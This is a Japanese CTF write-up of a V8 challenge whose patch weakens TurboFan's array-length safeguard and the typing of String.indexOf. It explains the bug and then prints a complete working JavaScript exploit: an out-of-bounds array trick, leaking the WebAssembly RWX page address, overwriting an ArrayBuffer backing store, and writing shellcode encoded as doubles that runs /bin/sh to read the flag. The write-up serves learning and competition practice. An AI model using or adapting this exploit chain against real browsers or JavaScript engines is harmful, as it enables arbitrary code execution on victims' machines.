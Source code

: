 # should've had a v8
最近はv8とchrome問に明け暮れています。この週末にはv8の問題でしかもパッチは実質2行、さすがにそろそろ解いておきたいと思い、隙間時間で取り組みました。

結果としては12時間くらいオーバーして解けたので、理解をまとめて書き残したいと思います。

## パッチ

パッチ自体は色々とありますが、READMEによると結局変更は2か所だそうです。親切で助かります。

```diff
diff --git a/src/compiler/js-create-lowering.cc b/src/compiler/js-create-lowering.cc
index 899922a27f..aea23fe7ea 100644
--- a/src/compiler/js-create-lowering.cc
+++ b/src/compiler/js-create-lowering.cc         
@@ -681,7 +681,7 @@ Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
       int capacity = static_cast<int>(length_type.Max());                                                                                                 
       // Replace length with a constant in order to protect against a potential
       // typer bug leading to length > capacity.
-      length = jsgraph()->Constant(capacity);
+      //length = jsgraph()->Constant(capacity);
       return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                             allocation, slack_tracking_prediction);
     }
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 0f18222236..0f76ad896e 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -2073,7 +2073,7 @@ Type Typer::Visitor::TypeStringFromCodePointAt(Node* node) {
 }

 Type Typer::Visitor::TypeStringIndexOf(Node* node) {
-  return Type::Range(-1.0, String::kMaxLength, zone());
+  return Type::Range(0, String::kMaxLength, zone());
 }

 Type Typer::Visitor::TypeStringLength(Node* node) {
```

前半のReduceJSCArrayの変更は、CVE2020-6383の[一連の流れ](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017)のうちの[この修正](https://chromium.googlesource.com/v8/v8.git/+/6516b1ccbe6f549d2aa2fe24510f73eb3a33b41a%5E%21/#F0)において、直接バグに関わらないものの、念のため追加された修正です。この修正ではturbofanによって`Array()`が最適化されるときに、引数が固定長だった場合には決まったサイズで確保してチェックなしで渡していたところを、capacityにそろえています。これによって、万一lengthが大きくなった場合でも、capacityで抑えられるためにOOBな配列を渡してしまうことを防ぎます。

そして今回はこの修正が取り除かれています。つまり`Array()`を使ってOOBな配列を作ってくださいねという指示と受け取れます。

後半の`TypeStringIndexOf`への修正は、これによってtrubofanの推定は、「String型に対するindexOfは-1が返ってこない」と解釈してしまうようになります。実際には文字列にない文字を指定することで-1が返りますので、ずれが生じます。

この問題は、このずれと、`Array()`のチェック無効を利用してOOBな配列を生成し、これを利用してコード実行を達成するという内容になっています。

## PoCの作成
コード実行を達成するためには、まずバグを利用してOOB配列を作る必要があります。必要な項目は以下の通りです。
- turbofanの推定では固定値が`Array()`に入るようにすること
- `str.indexOf()`の返り値-1になるときには巨大な値になること

最終的に以下のような関数で、OOB配列を作成することができました。

```js
function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);    /*1*/
        bad = -bad;                 /*2*/
        bad *= 0x100;               /*3*/
        bad += 10;                  /*4*/
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}
```

それぞれ実際の値：右と、推定値：左は以下のようになるはずです。

- 1のとき： -1, -0
- 2のとき： 1, 0
- 3のとき： 0x100, 0
- 4のとき： 0x10a, 10

turbofanでは`Array()`の引数が10になるので、これが入るような固定のサイズが用意されます。しかし実際にはもっと大きな値が入力され、OOB配列が手に入ります。

## 残ったもの
あとはやるだけです。（時間内にできませんでしたが。）
手順は以下の通りです。

1. double配列と、オブジェクト配列を利用してwasm_instance+0x60にあるrwxのアドレスをリーク
2. ArrayBufferのポインタをrwxに書き換える
3. rwxにシェルコードを載せる

wasm_instanceはポインタ圧縮範囲内、rwxは範囲外ですので、それぞれdouble arrayとArrayBufferを準備して、ポインタを書き換えます。
最終的なコードです。

```js
var buf = new ArrayBuffer(8);
var f64 = new Float64Array(buf);
var i64 = new BigInt64Array(buf);

function f2i(v) {
        f64[0] = v;
        return i64[0];
}
function i2f(v) {
        i64[0] = v;
        return f64[0];
}
function hex(v) { return "0x"+v.toString(16); }

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;

function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);
        bad = -bad;
        bad *= 0x100;
        bad += 10;
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}

var oob = optme()[0];
for (let i = 0; i < 100000; i++) {
        oob = optme();
}

// get oob array
oob = optme()[0];

// prepare helpers
var reader = [1.1, 2.2, 3.3];
var objarray = [reader, wasm_instance];
var writer = new ArrayBuffer(8);
var f64_writer = new Float64Array(writer);

// addr of wasm_instance
leak = f2i(oob[35]) >> 32n;

// elem of "reader" points to wasm_instance+0x60 (have rwx addr)
oob[23] =  i2f((6n << 32n)+leak+0x60n);

// leak rwx address 
var rwx = f2i(reader[0]);
print("rwx: ", hex(rwx));

// change length of "writer" to 0x20 
oob[47] = i2f(0x20n);

// change backing store ptr of "writer" to rwx
oob[48] = i2f(rwx);

// cmd: /bin/sh -c "ls -la /"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.9806662284999126e+161, 5.9604e-320, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];
// cmd: /bin/sh -c "cat /flag.txt"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.653261323414007e+184, 1.8219370047921238e-306, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];

// set shellcode to rwx through float view
f64_writer.set(sc, 0);

shellcode();
```

リモートでもローカルでも動きましたが、現在リモートはお休み中のようです。無念。フラグは見られたので良しとします。初めてカンニングせずに解き切れました。

少し反省を書いておきます。

普段は`--shell`を使って、あとからアタッチしてアドレスを特定しながら作業しますが、今回は不覚にもデバッグ方法が思いつかなかったため、かなりしらみつぶしに作っていって、すごくつらかったです。そしてこれは、普通にgdbでv8を立ち上げればよかったのです。

思いついてから30分程度で解けました。ちゃんと落ち着いて考えましょう。

chrome問でも似たようなデバッガどうつなげばいいの問題があるので、だれか教えてください。
